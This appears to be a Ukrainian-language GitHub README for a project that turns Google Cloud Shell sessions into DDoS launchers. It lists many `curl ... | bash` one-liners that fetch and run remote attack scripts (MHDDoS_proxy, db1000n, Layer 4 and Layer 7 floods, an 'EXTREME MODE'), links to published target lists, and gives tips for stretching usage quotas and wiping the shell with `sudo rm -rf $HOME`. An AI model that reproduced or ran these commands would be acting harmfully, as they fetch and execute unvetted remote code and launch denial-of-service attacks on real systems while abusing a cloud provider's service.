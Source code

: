 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси 
:white_check_mark:**Команда для встановлення та запуску MHDDoS_proxy (по [Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Команда для встановлення та запуску db1000n:** 
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap: Команди без обмежень
 :exclamation: **Атаки виходять дуже потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
